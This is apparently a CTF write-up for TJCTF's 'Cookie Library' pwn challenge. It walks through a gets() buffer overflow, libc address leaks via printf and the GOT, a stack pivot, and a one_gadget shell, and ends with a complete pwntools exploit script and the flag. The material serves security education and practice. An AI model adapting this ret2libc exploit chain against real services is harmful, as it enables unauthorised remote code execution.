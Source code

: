 # tjctf: binary

## Cookie Library [90]

Written by KyleForkBomb

_My friend loves cookies. In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something._

`nc p1.tjctf.org 8010`

## An Exercise in Futility

```sh
$ ./cookie_library
Check out all these cookies!
  - snickerdoodles
  ... (25 lines omitted)
  - white chocolate macadamia nut cookies
Which is the most tasty?
tassies
I'm sorry but we can't be friends anymore
```

Unflattery aside, if we want to guess the right cookie, we'll have to look at the source (minified):

```c
char *cookies[] = {"snickerdoodles", ... };
int main() {
  char s1[76]; // [rsp+0h] [rbp-50h]
  int i; // [rsp+4Ch] [rbp-4h]

  srand(time(0));
  puts("Check out all these cookies!");
  for (i = 0; i <= 27; i++)
    printf("  - %s\n", cookies[i]);
  puts("Which is the most tasty?");
  gets(s1);
  if (!strcasecmp(s1, cookies[rand()%28]))
    puts("Wow, me too!");
  else
    puts("I'm sorry but we can't be friends anymore");
}
```

Simple enough. We'll use `ctypes` to simulate `rand()`, taking our system's clock as the right seed for `srand()`. Putting it together into a pwntools script:
```python
from pwn import *
from ctypes import CDLL
lib = CDLL('libc.so.6')
lib.srand(lib.time(0))
cookie = lib.rand()%28
r = remote('p1.tjctf.org', 8010)
for i in range(cookie+1): r.recvline()
cookie = r.recvline()[4:-1]
r.sendlineafter('?\n', cookie)
r.interactive()
```
We can test it out, and surely enough, we'll get past the `if()` check:
<p align="center">
<img src="wow.png">
<br><i>Wow.</i>
</p>
If you didn't realise during the CTF, here's the ticket: _that was completely useless_

## _Library_'s in the name

As its namesake, _Cookie Library_ is a `ret2libc` challenge, that unfortunately has no libc version given.

To get the flag for this challenge, we're going to have to do a number of things:
0. Overwrite the return pointer with `gets()`
1. Figure out how to arbitrary read, because libc addresses need to be leaked
2. Find the libc version using that leak, and get a `one_gadget` offset
3. Simultanously leak libc and write the correct one_gadget address to the overflow in one `remote()` connection.

Like in the previous challenge (`stop`), we'll simply use `cyclic()` and `gdb` to derive the correct offset for the return pointer, which is located at `cyclic_find("waaa")`.

To leak a libc address, we can also repeat what we did in `Stop`, using `pop rsi` and `pop rdi` gadgets to push a "%s" string embedded in `.rodata:400B4B+4` as an argument for `printf()`, leaking libc addresses via the GOT table.

We leak a number of addresses like so (full code in appendix):
```python
rop = leak('rand') + leak('srand')
r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
print('addr of rand:  ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c173a0
r.recvline()
print('addr of srand: ' + hex(u64(r.recv(6) + '\0'*2))) 
```
The stack looks something like this:
```
+---s[]---+----rdi="%s\n"----+----rsi=ELF.got['rand']----+-plt.['printf']->
| garbage | pop rdi | "%s\n" | pop rsi, r15 | <rand> | 0 |    printf()    >
+---88----+--------16--------+-------------24------------+-------8-------->
<----rdi="%s\n"----+----rsi=ELF.got['srand']----+-plt.['printf']-+
< pop rdi | "%s\n" | pop rsi, r15 | <srand> | 0 |    printf()    |
<--------16--------+-------------24-------------+-------8--------+
```

And we get a number of addresses (test yourself with `python cookie.py test`):
```
[+] Opening connection to p1.tjctf.org on port 8010: Done
addr of rand:  0x7f743c6e63a0
addr of srand: 0x7f743c6e5bb0
[*] Closed connection to p1.tjctf.org port 8010
```
We can open up [libc-db](https://github.com/niklasb/libc-database) and figure out just which `libc.so.6` is awaiting abusual:
```sh
libc-database$ ./find rand 0x7f743c6e63a0 srand 0x7f743c6e5bb0
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```
After that, we can have a look at the kind of gadgets we're granted for 2.27:
```sh
libc-database$ one_gadget db/libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
The first gadget looks simpler to deal with, but we're forced against the cruft:
```sh
$ ropper -f cookie_library.o --nocolor 2> /dev/null | grep rcx | grep -v '[rcx]' | wc
      0       0       0
```
With no good `rcx` gadgets, we're damned to hit the highway with a `pop rsp`: `0x000000000040092d: pop rsp; pop r13; pop r14; pop r15; ret;`

To avoid having to leak the pre-existing `rsp`, we choose to switch over to a known, non-random non-PIE address to deign as the new `rsp`. The r/w `.data` segment fulfils this role adequately.

Incidentally, this is a blessing in disguise — by switching over to a controlled `rsp`, we're also given a good opportunity to write a secondary ROP chain at the same place, meaning that our overbloated payload is going to look something like this:
```
rop chain 1, written to s1[]:
+---s[]---+----rdi="%s\n"----+----rsi=ELF.got['rand']----+-plt.['printf']->
| garbage | pop rdi | "%s\n" | pop rsi, r15 | <rand> | 0 |    printf()    >
+---88----+--------16--------+-------------24------------+-------8-------->
<----rdi=<.data>----+-plt.['gets']-+-rsp=ELF.symbols['data']-+
< pop rdi | <.data> |    gets()    | pop_rsp_and_3 | <.data> |
<---------16--------+------8-------+------------16-----------+
rop chain 2, written to .data:
+--leftover pops from prev gadget---+----one_gadget-----+-buffer-+-one_gadget requirement-+
|     0     |     0     |     0     | libc_base+0x4f322 |   00   |          NULL          |
+-----------------24----------------+---------8---------+---32---|-----------8------------+
```
We leak libc (via `printf()`), write a secondary rop chain with `gets()`, shift `rsp` to that rop chain, and then jump to the one_gadget.

Works like a charm.

<p align="center">
<img src="shell.png">
</p>

## flag

`tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}`

## code

```python
from pwn import *
from sys import argv
r = remote('p1.tjctf.org', 8010)
#constants
e = ELF('./cookie_library.o')
r_offset = cyclic_find('waaa')  #empirical value
pop_rdi = 0x400933      #from ropper or otherwise
pop_rsi_trash = 0x400931
pop_rsp_and_3 = 0x40092d#scratch space
one_gadget = 0x4f322    #$ one_gadget libc-database/db/libc6...
s_fmt = e.symbols['_IO_stdin_used'] + e.section('.rodata').index('%s')
#helper functions
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_trash, rsi, 0]
leak = lambda got_func: rdi_rsi(s_fmt, e.got[got_func]) + [e.plt['printf']]
#add args when running to test this part of the code
if len(argv) > 1: #LEAKED: libc6_2.27-3ubuntu1_amd64 
    rop = leak('rand') + leak('srand')
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    r.recvline()
    print('addr of rand:  ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c173a0
    r.recvline()
    print('addr of srand: ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c16bb0
else:
    #rop chain 1: get libc addr and write/jmpto a new ropchain
    rop = leak('rand')
    rop+= [pop_rdi, e.symbols['__data_start'], e.symbols['gets']]
    rop+= [pop_rsp_and_3, e.symbols['__data_start']]
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    r.recvline() #trashline
    rand = u64(r.recv(6) + '\0'*2)  #libc of rand()
    one_gadget += rand - 0x443a0
    #rop chain 2: one_gadget, requiring [rsp+0x40] == NULL
    rop2 = [0]*3
    rop2+= [one_gadget]
    r.sendlineafter('\n', ''.join(map(p64,rop2)) + 0x60*'\0')
    r.interactive() #shell
```
